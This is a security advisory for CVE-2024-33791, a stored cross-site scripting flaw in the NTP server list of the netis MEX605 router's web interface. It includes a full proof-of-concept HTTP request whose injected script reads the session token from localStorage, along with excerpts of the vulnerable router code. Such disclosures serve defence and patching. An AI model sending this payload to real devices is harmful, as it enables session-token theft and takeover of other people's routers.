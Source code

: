 # CVE-2024-33791

- [netis MEX605](#netis-mex605)
  * [Target](#target)
  * [Bug Type](#bug-type)
  * [Abstract](#abstract)
  * [Reproduce](#reproduce)
  * [Details](#details)
    + [Bug Causes](#bug-causes)
  * [Conclusion](#conclusion)
  * [Discoverer](#discoverer)

## Target

netis MEX605 Router

| Firmware Version | Availability |
| --- | --- |
| 2.00.06 | True |

## Bug Type

Cross Site Scripting

## Abstract

Insufficient validation of the input value for the domain name, which is the input value of the list of servers present in the System -> Time Settings menu on the router, enables cross-site scripting when you run Save Settings.

## Reproduce

### Request

```bash
POST /ubus HTTP/1.1
Host: 192.168.1.1
Content-Length: 275
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.1
Referer: http://192.168.1.1/timeSetting.html
Accept-Encoding: gzip, deflate, br
Accept-Language: ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

{"jsonrpc":"2.0","id":19,"method":"call","params":["12588af66047ea713c7352417e2b2551","uci","set",{"config":"system","type":"timeserver","values":{"server":["\"<script>alert(localStorage.getItem('token_id'))</script>","1.openwrt.pool.ntp.org","2.openwrt.pool.ntp.org","3.openwrt.pool.ntp.org"],"enabled":"1"}}]}
```

### Response

```bash
HTTP/1.1 200 OK
Connection: close
Content-Type: application/json
Content-Length: 38

{"jsonrpc":"2.0","id":19,"result":[0]}
```

## Details

### Bug Causes

`/www/timeSetting.html:76`

```bash
<div class="ntp_div">
        
        
        <div class="form-group clearfix">
                <label class="col-xs-6 col-sm-4 col-md-4 col-lg-4 f-label"></label>
                <div class="col-xs-6 col-sm-8 col-md-8 col-lg-8 f-control coverSelect">
                        <select class="allChange" id="time_zone_sel"></select>
                </div>
        </div>
        
        <div class="form-group clearfix">
                <label class="col-xs-6 col-sm-4 col-md-4 col-lg-4 f-label"></label>
                <div class="col-xs-6 col-sm-8 col-md-8 col-lg-8 f-control">
                        <table id="ntp_server_list" class="table table-striped editableTable">
                                <thead>
                                        <tr>
                                                
[1]                                             <th class="text-center domain_name_txt"></th>
                                        </tr>
                                </thead>
                                <tbody id="editableTable">
                                </tbody>
                                
                                
                        </table>
                </div>
        </div>
        
</div>
...<snip>...
<div class="form-group clearfix">
        <label class="col-xs-6 col-sm-4 col-md-4 col-lg-4 f-label"></label>
        <div class="col-xs-6 col-sm-8 col-md-8 col-lg-8 f-control">
[2]             <button type="submit" class="btn btn-save" onClick="submitNTP()"></button>
        </div>
</div>
```

`/www/js/timeSetting.js:180`

```bash
function submitNTP(){
        
        var eb=$(':radio[name="get_time_mode0"]:checked').val();
        var server=[]
        if(eb==1){
                for(var i=0;i<4;i++){
[3]                     var a=$(".editInput").eq(i).val();
                        if(a){
[4]                             server.push(a);
                        }
                }
                if(server.length>0&&server.length!=4){
                        //                      alert("服务器列表可以为空，或者必须传4个");
                        return;
                }
                submitData.timezone=$("#time_zone_sel").val();
                submitData.zonename=$("#time_zone_sel").find("option:selected").text().replace(/\(.*?\)/g,'');
                
                show_message("save");
                var set1={"jsonrpc": "2.0", "id": 18, "method": "call", "params": [ localStorage.getItem('token_id'), "uci", "set", {"config": "system","type": "system","values":submitData} ] }
                set1=JSON.stringify(set1);
[5]             var set3={"jsonrpc": "2.0", "id": 19, "method": "call", "params": [ localStorage.getItem('token_id'), "uci", "set", {"config": "system","type": "timeserver","values":{"server":server,"enabled":eb}} ] }
                set3=JSON.stringify(set3);
                
                $.when(setDataFn(set1),setDataFn(set3)).then(function(data1,data){
                        data1=JSON.stringify(data1);
                        data1 = eval("(" + data1 + ")");
                        data=JSON.stringify(data);
[6]                     data = eval("(" + data + ")");
```

`/etc/config/system` 

```
config timeserver 'ntp'
        option enable_server '0'
        option enabled '1'
[7]     list server '0.openwrt.pool.ntp.org\"><script>alert(localStorage.getItem("token_id"))</script>'
        list server '1.openwrt.pool.ntp.org'
        list server '2.openwrt.pool.ntp.org'
        list server '3.openwrt.pool.ntp.org'
```

`/www/js/timeSetting.js:101`

```bash
function getTimeZone(){
        var a1='{"jsonrpc": "2.0", "id": 18, "method": "call", "params": [ "'+localStorage.getItem('token_id')+'", "uci", "get", {"config": "system"} ] }'
        
[8]     request({
                url:"/ubus",
                data:a1
        }).done(function(data){
                data=JSON.stringify(data);
                data = eval("(" + data + ")");
                if(check_data(data)){
                        handleTable(data.result[1].values.ntp.server);
                        change_get_time_mode(data.result[1].values.ntp.enabled);
                        $("#time_zone_sel").val(data.result[1].values.cfg01e48a.timezone);
                }
        }).fail(function(data){
                //show_request_err(data);
        })
```

```bash
<td>
	<input class="f-border editInput" onblur="changeInput(this)" value="0.openwrt.pool.ntp.org\&quot;">
[9]	<script>alert(localStorage.getItem("token_id"))</script>&gt;
</td>
```

`server` is not filtered.
it occurs cross site scripting in `getTimeZone` function.[8]

## Conclusion

Malicious Input can cause Cross Site Scripting in `getTimeZone` function.

It can be used as malicious way.

## Discoverer

CoreSecurity OT/ICS Research Team
